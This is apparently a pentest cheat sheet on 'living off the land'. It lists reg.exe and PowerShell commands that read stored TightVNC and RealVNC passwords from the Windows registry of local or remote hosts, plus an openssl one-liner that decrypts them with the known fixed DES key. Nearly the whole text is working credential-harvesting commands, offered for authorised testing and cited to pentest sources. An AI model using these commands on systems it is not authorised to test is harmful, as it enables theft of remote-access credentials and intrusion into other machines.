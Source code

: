 # Living off the Land

## 01 - TightVNC

### 1.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\Software\TigerVNC\WinVNC4 /v Password

C:\> reg.exe query [\\<IP>\]HKCU\SOFTWARE\TightVNC\Server" /v Password
```

Decode the hardcoded password.

```
$ basenc -d --base16 <<< "<hex_encoded_password" | openssl enc -provider legacy -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -C
```

### 1.2 - PowerShell

```powershell
PS C:\> Get-ItemProperty -Path "HKCU:\Software\TightVNC\Server"

PS C:\> $FormatEnumerationLimit = -1
Get-ItemProperty -Path Registry::HKLM\software\TightVNC\Server -Name ControlPassword
$password = 139, 16, 57, 246, 188, 35, 53, 209
ForEach ($hex in $password) {
[Convert]::ToString($hex, 16) }
```

## 02 - RealVNC

### 2.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\Software\ORL\WinVNC3\Password

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\RealVNC\WinVNC4 /v password

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\RealVNC\vncserver
```

### 2.2 - PowerShell

```
PS C:\> Get-ItemProperty -Path "HKCU:\Software\ORL\WinVNC3\Password"

PS C:\> Get-ItemProperty -Path "HKLM:\SOFTWARE\RealVNC\WinVNC4" -Name password
```

---
## References

### LOLRMM

- [LOLRMM: TightVNC](https://lolrmm.io/tools/tightvnc)

- [LOLRMM: RealVNC](https://lolrmm.io/tools/realvnc)

### Pentestlab

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)